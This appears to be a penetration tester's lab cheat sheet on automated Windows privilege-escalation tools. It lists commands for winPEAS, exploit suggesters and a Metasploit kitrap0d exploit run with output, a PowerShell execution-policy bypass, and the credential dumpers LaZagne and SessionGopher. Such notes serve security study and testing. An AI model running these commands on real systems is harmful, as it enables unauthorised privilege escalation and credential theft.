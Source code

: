 https://www.hackingarticles.in/window-privilege-escalation-automated-script/
# Automated Tools
## winPEAS
`winpeas.exe` requires >= 4.5.2 **.NET**
If not present, use `winpeas.bat or winpeas.ps1`
It doesn't read *PowerShell history file*!

```powershell
winpeas.exe > output.txt
```
---
## Windows-Exploit-Suggester

```sh
# Update database
windows-exploit-suggester -u
wes -u
```

```powershell
# Run systeminfo on target machine & copy it's contents on Linux
systeminfo > sysinfo.txt
```

```sh
# Basic Syntax
windows-exploit-suggester -d [database.xls] -i sysinfo.txt
wes sysinfo.txt

# Search with OS name
windows-exploit-suggester -d [database.xls] -i sysinfo.txt -o <Os> -l

# Search Local/Remote exploits only
windows-exploit-suggester -d [database.xls] -i sysinfo.txt -o <Os> -l
windows-exploit-suggester -d [database.xls] -i sysinfo.txt -o <Os> -r
```

![[Pasted image 20231104175046.png]]

## Metasploit

```sh
msf6> use post/multi/recon/local_exploit_suggester
msf6> set SESSION [session_id]
msf6 post(multi/recon/local_exploit_suggester) > run

# OR run directly in meterpreter shell

meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 31 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

Going down the list, `bypassauc_eventvwr` fails due to the *IIS user not being a part of the administrator's group*, which is the default and expected. The second option, `ms10_015_kitrap0d`, does the trick.

```sh
msf6 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options

msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1338
LPORT => 1338
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
SESSION => 3
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
```

---
## PowerUp
```powershell
powershell.exe -nop -exec bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

## PrivEscCheck
```powershell
Import-Module .\PrivescCheck.ps1
Invoke-PrivescCheck -Extended

# Example Output (Shows MySQL is running as system)
IPv4 TCP   0.0.0.0:3306        LISTENING 5308 mysqld
Name        : MySQL
DisplayName : MySQL
ImagePath   : C:\xampp\mysql\bin\mysqld.exe MySQL
User        : LocalSystem
StartMode   : Automatic
```

## Seatbelt
```powershell
.\Seatbelt.exe -group=all
```
![[Pasted image 20240713131714.png]]

---
### LaZagne
Dump passwords from *web browsers, chat clients, databases, email, memory dumps, various sysadmin tools, and internal password storage mechanisms (i.e., Autologon, Credman, DPAPI, LSA secrets, etc.)*. The tool can be used to run all modules, specific modules (such as databases), or against a particular piece of software (i.e., *OpenVPN*)

https://github.com/AlessandroZ/LaZagne/releases/

```powershell
# Run all lazagne modules
PS C:\htb> .\LaZagne.exe all
```


### SessionGropher
Extracts *saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials*. The tool is `written in PowerShell` and searches for and decrypts saved login information for remote access tools. It can be run locally or remotely. It searches the `HKEY_USERS` hive for all users who have logged into a domain-joined (or standalone) host and searches for and decrypts any saved session information it can find. It can also be run to search drives for *PuTTY private key files (.ppk), Remote Desktop (.rdp), and RSA (.sdtid)* files.
https://github.com/Arvanaghi/SessionGopher
```powershell
PS C:\htb> Import-Module .\SessionGopher.ps1
 
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
```
